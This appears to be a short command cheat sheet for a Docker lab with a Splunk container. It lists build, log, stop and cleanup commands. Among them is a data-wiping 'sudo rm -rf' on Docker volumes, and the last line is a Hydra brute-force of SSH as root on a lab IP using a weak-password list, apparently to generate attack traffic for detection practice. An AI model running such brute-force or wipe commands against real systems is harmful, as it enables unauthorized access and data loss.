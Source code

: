 docker-compose config

docker-compose up --build

docker-compose stop

docker-compose up -d

docker logs splunk

docker-compose down

docker container prune -f

docker image prune -a -f

docker volume prune -f

docker network prune -f

docker system prune -f

sudo rm -rf /var/lib/docker/volumes/*

docker run -it docker-hydra

docker run -it docker-hydra -l root -P /root/500-worst-passwords.txt -s 2222 10.145.89.1 ssh